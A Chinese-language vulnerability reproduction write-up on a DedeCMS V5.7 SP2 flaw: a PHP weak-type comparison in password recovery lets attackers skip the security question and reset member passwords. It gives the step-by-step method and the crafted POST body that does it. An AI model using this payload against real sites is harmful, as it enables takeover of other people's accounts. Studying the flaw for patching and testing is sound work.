 # DedeCMS V5.7 前台任意用户密码修改漏洞

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统 (`Dedecms`)是一款 `PHP` 开源网站管理系统。在用户密码重置功能处，`php`  存在弱类型比较，如果用户没有设置密保问题，那么可以绕过验证密保问题，直接修改密码(管理员账户默认不设置密保问题)。值得注意的是修改的密码是 `member` 表中的密码，即使修改了管理员密码也是 `member` 表中的管理员密码，仍是无法进入管理。

## 漏洞影响

`DedeCMS V5.7 SP2`

开启会员功能

## 漏洞复现

需要管理员开启会员功能，开启流程为

```plain
系统 -> 系统基本参数 -> 会员设置
```

然后进入找回密码，选择 “通过安全问题找回”，填写正确的用户名与邮箱

没有密码问题的用户，会得到这样的提示

![img](https://gitee.com/N0puple/nopic/raw/master/img/20210628212228.png)

不要紧，重来并用burp 抓包，更改 post 数据

原本的 post 数据

```plain
dopost=getpwd&gourl=&userid=ada&mail=123456%40admin.com&vdcode=vogr&type=1
```

更改后的 post 数据

```plain
dopost=safequestion&id=2&safequestion=00&safeanswer=0
```

id 为 想要更改的用户账号 id，发包即可

![img](https://gitee.com/N0puple/nopic/raw/master/img/20210628212956.png)



访问得到的链接，就可以修改密码，这里要注意，一定要使用 `burp`获取链接，不要直接改包后 `forward`

## 总结

这个漏洞只需要存在没有设置密保问题的用户就行，直接 `post id` 就可以，用户名会直接在修改密码中取出来，还是比较好的，唯一的缺点就是只能更改 `member` 中的 `admin` 账户密码，没法利用这个登陆到后台

## 参考链接

- `https://wiki.bylibrary.cn/漏洞库/01-CMS漏洞/DedeCMS/Dedecms 前台任意用户密码修改/`

`github` 链接：`https://github.com/N0puple/vulPOC`

获取文中环境可以关注公众号 “安全漏洞复现”，回复 “漏洞环境”

